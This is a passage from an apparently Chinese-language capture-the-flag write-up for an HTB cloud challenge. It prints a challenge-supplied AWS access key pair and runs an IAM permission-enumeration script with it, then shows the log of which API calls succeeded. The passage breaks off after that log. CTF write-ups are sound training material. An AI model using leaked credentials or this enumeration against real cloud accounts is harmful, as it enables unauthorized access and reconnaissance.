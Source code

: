 ![Untitled](./image/2024-05-28/Untitled%202.png)

> HTB{arn:aws:iam::532587168180:role/vault101}
> 

## 0x02 Protrude

> We have obtained leaked account pertaining to Vault 101, with suspicion that it may be linked to one of the leaders group. Your task is to enumerate and see if we can infiltrate them internally.
> 

[cloud_protrude.zip](./image/2024-05-28/cloud_protrude.zip)

这次附件给了 AKSK 

| Access key ID | Secret access key | region name |
| --- | --- | --- |
| AKIAXYAFLIG2JE6MC2SY | teWVv0GzIBKS23uozxUGmUH+muE5XB86fnZmRZXu | us-east-1 |

枚举下权限

```bash
> python3 enumerate-iam.py --access-key AKIAXYAFLIG2JE6MC2SY --secret-key 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

2024-05-24 20:24:44,577 - 36002 - [INFO] Starting permission enumeration for access-key-id "AKIAXYAFLIG2JE6MC2SY"
2024-05-24 20:24:47,577 - 36002 - [INFO] -- Account ARN : arn:aws:iam::532587168180:user/aalmodovar
2024-05-24 20:24:47,577 - 36002 - [INFO] -- Account Id  : 532587168180
2024-05-24 20:24:47,577 - 36002 - [INFO] -- Account Path: user/aalmodovar
2024-05-24 20:24:48,052 - 36002 - [INFO] Attempting common-service describe / list brute force.
2024-05-24 20:24:54,994 - 36002 - [INFO] -- dynamodb.describe_endpoints() worked!
2024-05-24 20:25:00,070 - 36002 - [INFO] -- sts.get_caller_identity() worked!
2024-05-24 20:25:00,519 - 36002 - [INFO] -- sts.get_session_token() worked!
2024-05-24 20:25:06,096 - 36002 - [ERROR] Remove globalaccelerator.describe_accelerator_attributes action
2024-05-24 20:25:24,007 - 36002 - [INFO] -- ds.describe_directories() worked!
```
